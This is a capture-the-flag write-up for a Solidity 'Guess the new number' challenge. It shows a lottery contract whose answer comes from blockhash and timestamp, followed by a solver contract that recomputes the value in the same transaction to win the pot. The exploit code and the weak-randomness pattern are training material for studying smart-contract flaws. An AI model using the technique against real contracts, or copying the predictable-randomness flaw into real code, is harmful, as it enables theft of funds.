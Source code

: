 # Guess the new number
<sup>LOTTERIES: 400 POINTS</sup>

The number is now generated on-demand when a guess is made.

```solidity
pragma solidity ^0.4.21;

contract GuessTheNewNumberChallenge {
    function GuessTheNewNumberChallenge() public payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function guess(uint8 n) public payable {
        require(msg.value == 1 ether);
        uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now));

        if (n == answer) {
            msg.sender.transfer(2 ether);
        }
    }
}
```

Enjoy this inspirational music while you work: [I Guess It’s Christmas Time](https://youtu.be/Qu3aqM1BnLc).



Solution:

```solidity
pragma solidity ^0.8.0;
interface IGuessTheNewNumberChallenge {
    function guess(uint8 n) external payable;
}

contract GuessTheNewNumberSolver {

    IGuessTheNewNumberChallenge public challenge;
    address public owner;

    constructor(address _challengeAddress) {
        challenge = IGuessTheNewNumberChallenge(_challengeAddress);
        owner = msg.sender;
    }

    function solve() public payable {
        require(msg.sender == owner, "Only the owner can solve this challenge");
        require(msg.value == 1 ether, "You must send an ether, first");
        uint8 answer = uint8(uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))));
        challenge.guess{value: 1 ether}(answer);
        payable(msg.sender).transfer(address(this).balance);
    }

    receive() external payable {}
}
```